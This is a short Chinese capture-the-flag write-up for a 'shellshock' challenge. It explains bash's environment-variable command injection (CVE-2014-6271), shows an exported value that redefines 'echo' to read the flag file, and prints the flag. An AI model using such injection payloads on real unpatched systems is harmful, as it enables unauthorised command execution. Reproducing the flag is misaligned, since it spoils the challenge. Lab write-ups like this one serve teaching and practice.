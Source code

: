 ### shellshock

一个简单的N-day

原理是将某些string作为env解析时带来的命令注入

`system("/home/shellshock/bash -c 'echo shock_me'");`
这里的echo可以被注入，可以被任意替换
`export echo="() {cat flag;}"`

flag
`only if I knew CVE-2014-6271 ten years ago..!!`
